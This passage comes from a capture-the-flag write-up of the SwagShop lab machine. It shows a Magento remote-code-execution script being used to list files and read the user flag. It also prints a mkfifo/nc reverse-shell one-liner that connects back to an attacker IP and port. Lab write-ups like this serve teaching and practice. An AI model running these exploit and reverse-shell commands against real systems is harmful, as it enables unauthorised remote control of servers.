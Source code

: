 ![](./IMG/37.png)
- Check the content of haris directory
```
python magentoRCE2.py http://swagshop.htb "ls -al /home/haris"
```
![](./IMG/38.png)
-  Get user flag
```
python magentoRCE2.py http://swagshop.htb "cat /home/haris/user.txt"
```
![](./IMG/39.png)

## Privilege Escalation 

- With above exploit code, I tried to create connection by reverse shell 
```
python magentoRCE2.py http://swagshop.htb "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.145 1337 >/tmp/f"
```
![](./IMG/40.png)
- Observe nc status, get reverse shell
- Check current user
```
id / whoami 
```